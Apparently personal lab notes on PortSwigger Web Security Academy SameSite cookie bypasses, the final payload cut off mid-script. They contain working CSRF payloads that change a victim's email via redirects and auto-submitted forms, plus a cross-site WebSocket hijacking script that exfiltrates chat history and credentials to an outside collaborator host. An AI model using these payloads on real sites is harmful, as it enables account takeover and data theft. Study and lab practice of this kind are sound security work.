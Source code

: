 **SameSite Strict bypass via client-side redirect**

    change-email contain submit=1 in body param
    login => Set-Cookie; SameSite=Strict
    post comment
    commentConfirmationRedirect.js
```html
<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account"; </script>

<script>
	document.location = "https://0aed002104d7191e80ec30c0007d00ed.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=hacked@ja%26submit=1";
</script>
```
---

**SameSite Strict bypass via sibling domain**

    CSWSH - Web Socket
    Chat history - Chat
    login credentials in plain text
    try cms-LAB_URL
```html
<script>
    var ws = new WebSocket('wss://0a7d0053034c26f380cf3b4a00240084.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://wmm4ofqyaazbwvqbv77vu4k0zr5it8hx.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
1. modified the payload
2. URL encode entire script
3. go to exploit server with 
```html
<script>
    document.location = "https://cms-0a7d0053034c26f380cf3b4a00240084.web-security-academy.net/login?username=$ENCODED_STRING_FROM_NUMBER2$&password=anything";
</script>
```
4. wait for collab
   
---

**SameSite Lax bypass via cookie refresh**

    OAuth-baed login
    cookie refresh
```html
<form method="POST" action="https://0a9e00c804d3f51e82608ec0009c0078.web-security-academy.net/my-account/change-email">
	<input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
	window.onclick = () => {
    	window.open('https://0a9e00c804d3f51e82608ec0009c0078.web-security-academy.net/social-login');
    	setTimeout(changeEmail, 5000);
	}

	function changeEmail() {
    	document.forms[0].submit();
```

[def]: #client-side-summary